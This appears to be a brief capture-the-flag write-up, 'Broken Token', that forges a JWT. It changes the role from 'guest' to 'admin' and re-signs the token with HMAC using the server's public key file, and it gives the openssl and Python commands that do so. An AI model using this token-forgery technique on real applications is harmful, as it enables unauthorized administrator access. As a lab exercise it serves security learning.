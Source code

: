 # Broken Token

On logging in, checked cookies and found a JWT, decoding gave a part with 'guest'. Changed to 'admin' and regenerated the keys using the below writeup
```
$ echo -n "<first two parts of regen JWT>" | openssl dgst -sha256 -mac HMAC -macopt hexkey:$(cat signing.pem | xxd -p | tr -d "\\n")

$ python -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('<the output of the previous command>')).replace('=','')\")"

```
After getting the new JWT, put it in the cookie, and reload the page.

Follow this writeup:

https://ctftime.org/writeup/17202

